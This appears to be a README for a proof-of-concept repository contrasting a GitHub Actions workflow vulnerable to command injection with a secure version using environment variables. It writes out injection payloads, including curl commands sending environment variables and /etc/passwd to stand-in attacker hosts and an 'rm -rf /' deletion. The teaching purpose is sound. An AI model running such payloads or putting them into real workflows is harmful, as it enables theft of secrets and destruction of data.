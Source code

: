 # Vulnerable-GitHub-Inputs-POC

This repository demonstrates the security difference between using GitHub Actions inputs directly in run statements versus using environment variables.

## ⚠️ Security Warning

The `vulnerable-workflow.yml` file contains an intentional security vulnerability for educational purposes. **DO NOT use this pattern in production workflows.**

## Workflows

### 1. Vulnerable Workflow (`vulnerable-workflow.yml`)

- **Issue**: Uses `${{ inputs.user_message }}` directly in the run statement
- **Risk**: Susceptible to command injection attacks
- **Example Attack**: Input like `; curl -X POST https://attacker.com/steal --data-raw "$(env)"` would exfiltrate all environment variables (including any secrets stored in there) to an attacker controlled website.

### 2. Secure Workflow (`secure-workflow.yml`)

- **Solution**: Uses an environment variable with proper quoting
- **Protection**: The `env:` block safely handles the input, and `"$USER_MESSAGE"` treats it as a string literal

## The Vulnerability

When GitHub Actions workflows use expressions like `${{ inputs.user_message }}` directly in run statements, they create a command injection vulnerability. The input is directly interpolated into the shell command without any sanitization.

## How the Attack Works

### Vulnerable Code

```yaml
run: |
  echo ${{ inputs.user_message }}
```

### Attack Vector

If an attacker provides input like:

```
Hello; rm -rf / --no-preserve-root
```

The resulting command becomes:

```bash
echo Hello; rm -rf / --no-preserve-root
```

This executes two commands:

1. `echo Hello`
2. `rm -rf / --no-preserve-root` (attempts to delete everything)

## The Secure Solution

### Secure Code

```yaml
env:
  USER_MESSAGE: ${{ inputs.user_message }}
run: |
  echo "$USER_MESSAGE"
```

### Why This Works

1. **Environment Variable**: The input is stored in an environment variable first
2. **Proper Quoting**: Using `"$USER_MESSAGE"` treats the entire content as a string literal
3. **No Direct Interpolation**: The shell doesn't interpret special characters in the variable content

### Result

Even with malicious input like `Hello; rm -rf /`, the command becomes:

```bash
echo "Hello; rm -rf /"
```

## How to Test

1. Go to the "Actions" tab in your GitHub repository
2. Select either workflow
3. Click "Run workflow"
4. Try different inputs:
   - Normal input: `Hello World`
   - Malicious input: `; echo "This could be dangerous"`

### Expected Results

**Vulnerable Workflow**:

- Normal input works fine
- Malicious input executes additional commands

**Secure Workflow**:

- Both inputs are treated as literal strings
- No command injection possible

## Attack Example

In the vulnerable workflow, an attacker could input:

```
Hello; curl -X POST https://evil.com/exfiltrate --data "$(cat /etc/passwd)"
```
